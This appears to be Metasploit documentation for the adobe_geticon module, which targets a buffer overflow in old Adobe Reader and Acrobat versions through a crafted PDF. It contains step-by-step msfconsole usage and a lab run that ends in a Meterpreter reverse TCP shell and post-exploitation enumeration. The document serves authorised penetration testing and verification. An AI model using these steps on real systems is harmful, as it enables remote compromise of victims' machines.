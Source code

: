 ## Vulnerable Application

This module exploits a buffer overflow in Adobe Reader and Adobe Acrobat. Affected versions include < 7.1.1, < 8.1.3, and < 9.1. By creating a specially crafted pdf that a contains malformed Collab.getIcon() call, an attacker may be able to execute arbitrary code.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-8-0-0]

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/adobe_geticon`
   4. Do: `set LHOST [IP]`
   5. Do: `exploit`
   6. Do: `use [exploit/multi/handler]`
   7. Do: `set payload [windows/meterpreter/reverse_tcp]`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 8.0.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_geticon
  msf exploit(windows/fileformat/adobe_geticon) > set FILENAME icon.pdf
    FILENAME => icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > exploit

    [*] Creating 'icon.pdf' file...
    [+] icon.pdf stored at /root/.msf4/local/icon.pdf
  msf exploit(windows/fileformat/adobe_geticon) > cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf
    [*] exec: cp /root/.msf4/local/icon.pdf /var/www/html/icon.pdf

  msf payload(windows/meterpreter/reverse_tcp) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 3 opened (192.168.1.3:4444 -> 192.168.1.5:1160) at 2019-12-06 14:40:10 -0700

  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

     Name            Version
     ----            -------
     Adobe Reader 8  8.0.0


    [+] Results stored in: /root/.msf4/loot/20191206144654_default_192.168.1.5_host.application_162364.txt
  ```
